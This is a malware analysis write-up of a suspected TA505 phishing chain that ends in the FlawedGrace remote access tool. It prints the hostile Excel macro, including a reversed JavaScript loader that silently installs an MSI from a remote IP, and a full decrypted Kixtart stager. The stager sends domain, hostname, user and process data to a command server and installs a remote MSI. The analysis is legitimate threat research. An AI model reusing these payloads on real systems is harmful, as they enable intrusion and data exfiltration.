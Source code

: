 #Summary
Suspected TA505 Phish
Attack flow:
Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

#Email
Sender: 	admin@commaxdiafon.com
Subject:  	Claim Processing 20210925
Received: 	from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

#XLS (deaad3ea1c708cd99e41c4043169aa4d)
	- Macro
		Function Auto_Open()
			Dim a As New ScriptControl
			a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
			a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
		End Function
		
	- Comments: eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))
	- Reversed: with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}
	
	- Pulls down and executes MSI 

#MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
	- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
#Kixtart Script (a176738655f7bd7270aa086db0f35451)
	- Encrypted and tokenized 
	- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
	- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

Detokenized script:

```Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


